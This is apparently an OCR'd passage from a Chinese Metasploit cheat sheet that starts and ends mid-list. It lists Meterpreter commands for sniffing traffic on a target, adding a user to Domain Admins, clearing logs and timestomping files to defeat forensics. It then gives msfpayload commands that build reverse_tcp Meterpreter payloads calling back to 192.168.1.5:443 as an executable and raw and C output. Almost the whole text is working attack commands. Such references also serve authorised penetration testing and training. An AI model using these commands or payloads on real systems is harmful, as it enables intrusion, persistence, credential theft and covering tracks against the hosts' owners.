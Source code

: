 导出目标主机中的口令哈希值

use sniffer

加载嗅探模块

sniffer_interfaces

列出目标主机所有开放的网络接口

sniffer_dump interfaceID pcapname

在目标主机上启动嗅探

sniffer_start interfaceID pcaket-buffer

在目标主机上针对特定范围的数据包缓冲区启动嗅探

sniffer_stats interfaceID 

获取正在实施嗅探网络接口的统计数据

sniffer_stop interfaceID 

停止嗅探

add_user username password -h ip

在远程目标主机上添加一个用户

add_group_user "Domain Admins" username -h ip

将用户添加到目标主机的域管理员组中

clearv

清除目标主机上的日志记录

timestomp

修改文件属性，例如修改文件的创建时间（反取证调查）

reboot

重启目标主机

三、MSF payload命令
msfpayload -h

MSFpayload的帮助信息

msfpayload windows/meterpreter/bind_tcp O

列出攻击载荷的配置项（任何攻击载荷都可以配置）

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 X > payload.exe

创建一个Meterpreter的reverse_tcp攻击载荷，回连到192.168.1.5的443端口，将其保存为payload.exe的Windows可执行程序

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R > payload.raw

生成原始格式的文件，该文件将在MSFencode中使用。

msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 C > payload.c
